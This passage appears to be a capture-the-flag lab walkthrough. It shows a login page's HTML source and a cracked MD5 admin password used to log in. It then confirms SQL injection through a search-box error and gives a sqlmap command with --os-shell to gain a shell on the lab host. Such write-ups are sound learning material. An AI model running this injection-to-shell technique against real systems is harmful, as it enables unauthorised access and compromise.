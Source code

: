 ```PHP
        <label for="login__password"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#lock"></use></svg><span class="hidden">Password</span></label>
        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
      </div>

      <div class="form__field">
        <input type="submit" value="Sign In">
      </div>

    </form>


  </div>

  <svg xmlns="http://www.w3.org/2000/svg" class="icons"><symbol id="arrow-right" viewBox="0 0 1792 1792"><path d="M1600 960q0 54-37 91l-651 651q-39 37-91 37-51 0-90-37l-75-75q-38-38-38-91t38-91l293-293H245q-52 0-84.5-37.5T128 1024V896q0-53 32.5-90.5T245 768h704L656 474q-38-36-38-90t38-90l75-75q38-38 90-38 53 0 91 38l651 651q37 35 37 90z"/></symbol><symbol id="lock" viewBox="0 0 1792 1792"><path d="M640 768h512V576q0-106-75-181t-181-75-181 75-75 181v192zm832 96v576q0 40-28 68t-68 28H416q-40 0-68-28t-28-68V864q0-40 28-68t68-28h32V576q0-184 132-316t316-132 316 132 132 316v192h32q40 0 68 28t28 68z"/></symbol><symbol id="user" viewBox="0 0 1792 1792"><path d="M1600 1405q0 120-73 189.5t-194 69.5H459q-121 0-194-69.5T192 1405q0-53 3.5-103.5t14-109T236 1084t43-97.5 62-81 85.5-53.5T538 832q9 0 42 21.5t74.5 48 108 48T896 971t133.5-21.5 108-48 74.5-48 42-21.5q61 0 111.5 20t85.5 53.5 62 81 43 97.5 26.5 108.5 14 109 3.5 103.5zm-320-893q0 159-112.5 271.5T896 896 624.5 783.5 512 512t112.5-271.5T896 128t271.5 112.5T1280 512z"/></symbol></svg>

</body>
<!-- partial -->
  
</body>
</html>
```

We can see the password for `admin` is `2cb42f8734ea607eefed3b70af13bbd3` but it's a md5 hash so we put them on crack station and we get : `qwerty789`
Let's try on the website.

![[Pasted image 20250115212149.png]]

It's work.

When we put an `'` in the search bar we get :
```SQL
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```
The web page is vulnerable to sql injection.

Go try #sqlmap

```SHELL
sqlmap -u "http://10.129.11.179/dashboard.php?search=e" --os-shell
```

